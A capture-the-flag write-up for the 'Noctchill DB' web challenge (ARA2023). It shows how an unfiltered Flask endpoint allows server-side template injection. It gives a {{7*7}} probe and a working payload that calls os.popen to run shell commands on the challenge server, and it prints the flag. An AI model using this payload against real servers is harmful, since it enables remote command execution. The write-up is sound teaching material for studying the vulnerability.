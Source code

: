 # Noctchill DB
> Checkout my Noctchill Database Page.

## About the Challenge
Given a website along with its source code (You can get the source code [here](web_noctchill_db.zip)), when we open the website we will be met with shiny color members :D.

![preview](images/preview.png)

And then when I checking the code, apparently there is no filter in the idol detail endpoint section which can result in Server-Side Template Injection (SSTI)

![code](images/code.png)

![template](images/template.png)

## How to Solve?
First I test the website using the payload as below

```
http://103.152.242.116:6712/{{7*7}}
```

And it turns out that the output is `49` which means vulnerable to SSTI

![test](images/test.png)

After testing a lot of payloads and reading other CTF event writeups, I found the final payload to perform RCE on the server

```
http://103.152.242.116:6712/{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=ls /
```

![rce](images/rce.png)

Open the `flag_68b329da98.txt` file to get the flag

```
ARA2023{its_n0t_th4t_h4rd_r1ghT??}
```